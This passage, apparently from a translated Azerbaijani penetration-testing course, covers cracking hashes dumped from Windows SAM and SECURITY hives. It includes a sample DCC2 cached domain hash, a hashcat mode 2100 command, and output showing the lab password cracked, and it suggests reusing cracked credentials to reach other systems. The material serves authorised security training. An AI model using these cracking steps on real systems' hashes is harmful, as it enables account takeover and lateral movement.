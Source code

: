 Çıxışdan görə bilərik ki, Hashcat heşlərdən üçünü uğurla sındırıb. Bu şifrələrə sahib olmaq bir çox yolla faydalı ola bilər. Məsələn, sındırılmış etimadnamələrdən istifadə edərək şəbəkədəki digər sistemlərə daxil olmağa cəhd edə bilərik. İstifadəçilərin şifrələri müxtəlif iş və şəxsi hesablar arasında yenidən istifadə etməsi çox yaygındır. Bu texnikanı anlamaq və tətbiq etmək qiymətləndirmələr zamanı dəyərli ola bilər. Biz zəif bir Windows sistemi ilə qarşılaşdığımız və SAM verilənlər bazasını *dump* etmək üçün inzibati hüquqlar əldə etdiyimiz hər an bundan faydalanacağıq.

Unutmayın ki, bu, yaxşı tanınan bir texnikadır və administratorlar onu aşkar etmək və ya qarşısını almaq üçün təhlükəsizlik tədbirləri tətbiq etmiş ola bilərlər. **MITRE ATT\&CK** çərçivəsində bir neçə aşkarlama və azaldılma strategiyası sənədləşdirilmişdir.

### DCC2 Heşləri

Əvvəllər qeyd edildiyi kimi, `hklm\security` keşlənmiş domen loqin məlumatlarını, xüsusən də **DCC2 heşləri** şəklində ehtiva edir. Bunlar şəbəkə etimadnamə heşlərinin yerli, heşlənmiş kopyalarıdır. Bir nümunə:

```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

Bu növ heş, **PBKDF2** istifadə etdiyi üçün NT heşindən daha çətin sındırılır. Əlavə olaraq, **Pass-the-Hash** kimi texnikalarla lateral hərəkət üçün istifadə edilə bilməz (bunu daha sonra nəzərdən keçirəcəyik). DCC2 heşlərini sındırmaq üçün Hashcat modu **`2100`**-dır.

```bash
nijatmansimov@htb[/htb]$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
<SNIP>
$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25:ihatepasswords                                                          
Seans..........: hashcat
Status...........: Sındırıldı (Cracked)
Heş.Modu........: 2100 (Domain Cached Credentials 2 (DCC2), MS Cache 2)
Heş.Hədəfi......: $DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
Başlama.Vaxtı.....: Çərş. Apr 22 09:12:53 2025 (27 san)
Təxmini.Vaxt...: Çərş. Apr 22 09:13:20 2025 (0 san)
Nüvə.Xüsusiyyəti...: Pure Kernel
Təxmin.Baza.......: Fayl (/usr/share/wordlists/rockyou.txt)
Təxmin.Növbəsi......: 1/1 (100.00%)
Sürət.#1.........:     5536 H/s (8.70ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Bərpa.Edildi........: 1/1 (100.00%) Digest (cəmi), 1/1 (100.00%) Digest (yeni)
İrəliləyiş.........: 149504/14344385 (1.04%)
Rədd.Edildi.........: 0/149504 (0.00%)
Bərpa.Nöqtəsi....: 148992/14344385 (1.04%)
Bərpa.Alt.#1...: Salt:0 Amplifier:0-1 Iteration:9216-10239
Kandidat.Mühərriki.: Device Generator
Kandidatlar.#1....: ilovelloyd -> gerber1
Avadanlıq.Mon.#1..: Util: 95%
Başladı: Çərş. Apr 22 09:12:33 2025
Dayandı: Çərş. Apr 22 09:13:22 2025
```

**5536 H/s** sındırma sürətinə diqqət yetirin. Eyni maşında NTLM heşləri **4605.4 kH/s** sürətlə sındırıla bilər. Bu o deməkdir ki, DCC2 heşlərini sındırmaq təxminən **800 dəfə yavaşdır**. Dəqiq rəqəmlər, əlbəttə ki, mövcud avadanlıqdan çox asılı olacaq, lakin əsas nəticə ondan ibarətdir ki, güclü şifrələr tipik *penetration testing* müddətləri daxilində sındırıla bilməz.
